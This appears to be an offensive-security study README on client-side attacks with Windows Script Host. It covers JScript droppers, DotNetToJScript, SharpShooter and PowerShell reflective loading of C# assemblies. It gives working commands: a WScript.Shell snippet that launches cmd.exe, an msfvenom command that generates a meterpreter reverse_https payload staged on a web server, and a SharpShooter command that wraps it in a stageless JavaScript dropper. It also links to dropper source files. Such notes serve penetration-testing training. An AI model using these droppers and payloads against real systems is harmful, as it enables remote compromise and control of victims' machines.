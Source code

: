 ## Basic Dropper in Jscript
Jscript is developed by Microsft that used in Internet Explorer. It can also be executed outside the browser through Windows Script Host(an automation technology for Microsoft Windows operating systems that provides scripting abilities think like batch files, but beefer).
We can use jscript to interact with ActiveX( software framework created by Microsoft back in 1996, it was desiged for content downloaded from a network(IE)) Consider the following code, We invoke **ActiveXObject** and use **WScript.Shell** to interact with the Windows Script Host Shell to execute external application. The file extension should be .js

```
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

Method 1: Let's Create [Jscript payload Dropper](/02ClientSideWithWindowsScriptHost/JscriptPayloadDropper.js) to download and execute payload from our wbesite.
Method 2: To Do, Let's make the dropper proxy-aware, research setProxy method, Page 107.

## Mix Jscript and C#
Let's run payload completely from memory by using Win32 APIs. We can't invoke Win32API directly from Jscript. We'll embed a complited C# assembly in the Jscript file and execute it. We will need to use the [DotNetToJScript github code](https://github.com/tyranid/DotNetToJScript), once complie the example source code, we will use [DotNetToJScript.exe](/02ClientSideWithWindowsScriptHost/DotNetToJScript.exe) with [NDesk.Options.dll](/02ClientSideWithWindowsScriptHost/NDesk.Options.dll) to compile [ExampleAssembly.dll](/02ClientSideWithWindowsScriptHost/DotNetToJScript.exe) into an [demo.js](/02ClientSideWithWindowsScriptHost/demo.js) jscript.

```
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
```

Now, We can modify the default TestClass.cs to write our [payload dropper](/02ClientSideWithWindowsScriptHost/TestClass.cs ) in c# and conver it to jscript using the same DotNetToJScript.exe command.

The above method can also be done by using [SharpShoter](https://github.com/mdsecactivebreach/SharpShooter) framework.

First,Create a raw payload

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=ip LPORT=443 -f raw -o /var/www/html/shell.txt
```

then invoke SharpShooter.py to compile js code

```
sudo python SharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /var/www/html/shell.txt --output test
```

## Reflection powershell with pre-compiled C# assembly
Let's  fetch the pre-compiled assembly with c# and load it directly into memory using powershell. 
Now we can use the same code to compile a new dll to used in powershell.
- 1.Create a New **Class Libary .NET Framework project**
- 2.use the same ttps and compile the [cs code](/02ClientSideWithWindowsScriptHost/Class1.cs) into dll
- 3.create powershell [payload dropper](/02ClientSideWithWindowsScriptHost/reflectionRunner.ps1).

